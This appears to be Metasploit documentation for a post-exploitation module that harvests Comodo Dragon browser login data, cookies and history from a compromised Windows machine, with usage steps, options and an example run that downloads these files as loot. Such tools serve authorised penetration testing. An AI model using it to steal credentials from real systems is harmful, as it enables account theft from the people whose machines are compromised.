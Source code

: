 ## Module Description

This post-exploitation module gathers artifacts found on comodo related folders from end users systems.

The list of available artifcts are listed within the module and can be added at anytime. Each artifacts are categorised so that users can specify a category to look for.


## Verification Steps

1. Start MSF console
2. Get a Meterpreter session on a Windows system
3. use post/windows/gather/credentials/comodo
4. Set SESSION 1
5. enter 'run' to extract credentials from all applications


## Options
### REGEX

Users can set their own regular expressions so that it could be applied for the credential extraction. The default is set to ^password.

### VERBOSE

By default verbose is turned off. When turned on, the module will show information on files which aren't extracted and information that is not directly related to the artifact output.


### STORE_LOOT
This option is turned on by default and saves the stolen artifacts/files on the local machine,
this is required for also extracting credentials from files using regexp, JSON, XML, and SQLite queries.


### EXTRACT_DATA
This option is turned on by default and will perform the data extraction using the predefined regular expression. The 'Store loot' options must be turned on in order for this to take work.

## Example Run
### Default Output
  ```
msf post(windows/gather/credentials/comodo) > run 

[*] Filtering based on these selections:  
[*] ARTIFACTS: All
[*] STORE_LOOT: true
[*] EXTRACT_CREDENTIALS_FROM_FILE: true

[*] Comodo's parent folder found
[*] Comodo's Login data file found
[*] Downloading C:\Users\IEUser\AppData\Local\Comodo\Dragon\User Data\Default\Login Data
[*] Comodo Login data downloaded
[+] File saved to:  /root/.msf4/loot/20210513125515_default_192.168.56.106_comodoLoginData_429364.bin

[+] File with credentials saved:  /root/.msf4/loot/20210513125515_default_192.168.56.106_EXTRACTIONSLogin_329462.bin
[*] Comodo's parent folder found
[*] Comodo's Cookies file found
[*] Downloading C:\Users\IEUser\AppData\Local\Comodo\Dragon\User Data\Default\Cookies
[*] Comodo Cookies downloaded
[+] File saved to:  /root/.msf4/loot/20210513125515_default_192.168.56.106_comodoCookies_259188.bin

[+] File with credentials saved:  /root/.msf4/loot/20210513125516_default_192.168.56.106_EXTRACTIONSCooki_639838.bin
[*] Comodo's parent folder found
[*] Comodo's History file found
[*] Downloading C:\Users\IEUser\AppData\Local\Comodo\Dragon\User Data\Default\History
[*] Comodo History downloaded
[+] File saved to:  /root/.msf4/loot/20210513125516_default_192.168.56.106_comodoHistory_353947.bin

[*] no such column: lower_term
[*] Comodo's parent folder found
[*] Comodo's Visited links file found
[*] Downloading C:\Users\IEUser\AppData\Local\Comodo\Dragon\User Data\Default\Visited Links
[*] Comodo Visited links downloaded
[+] File saved to:  /root/.msf4/loot/20210513125516_default_192.168.56.106_comodoVisitedLi_752304.bin

[*] file is not a database
[*] PackRat credential sweep Completed
[*] Post module execution completed

  ```
